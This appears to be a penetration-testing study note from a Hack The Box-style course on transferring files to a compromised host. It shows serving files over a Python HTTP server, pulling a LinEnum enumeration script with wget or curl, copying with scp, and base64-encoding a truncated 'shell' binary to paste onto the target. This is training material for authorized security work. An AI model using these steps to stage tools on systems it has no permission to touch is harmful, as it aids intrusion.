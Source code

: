 
## Using wget :

  - First set an HTTP_server ([[Linux/Cheet Sheat/Linux Commands]])with python on the Host-Machine :

	```SHELL
	Thibovski@htb[/htb]$ cd /tmp

	Thibovski@htb[/htb]$ python3 -m http.server 8000


  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

  - Go to the download Link on the remote host, and download your Files with #wget:

	```SHELL
	user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
	...SNIP...
	Saving to: 'linenum.sh'
				linenum.sh 100[==============================================>] 
				144.86K  --.-KB/s    in 0.02s
 
	2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved
	[14337/14337]
  ```
  

- If the remote server doesnt have wget, we can use cURL to download the File :

 ```SHELL
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

```

- ```-o``` to specify the output file name 

## Using SCP ( Secure Copy ) :

- After gaining access with SSH we can transfer out Data via #SCP.

```shell
scp <filename> user@<remotehost_IP>:remote_directory
```
- Ex : 
```SHELL
Thibovski@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh
user@remotehost's password: *********

linenum.sh
```

## Using Base64 :

Look also at the Chapitre [[Offsec/Information Security Foundations/Web Requests/JAVASCRIPT DEOBFUSCATION]]

- In some cases we dont even have the right privileges to copy files. in this case we can only use #Base64 to encode the file into a Base64 format and past it to the remote server and decode it .
- In this exemple we decode a binary file called shell and transfer it into the remote host and then decode it :

	- Localmachine :

  ```SHELL
  Thibovski@htb[/htb]$ base64 shell -w 0

  
	f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

	- Remotehost :

  ```SHELL
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```
  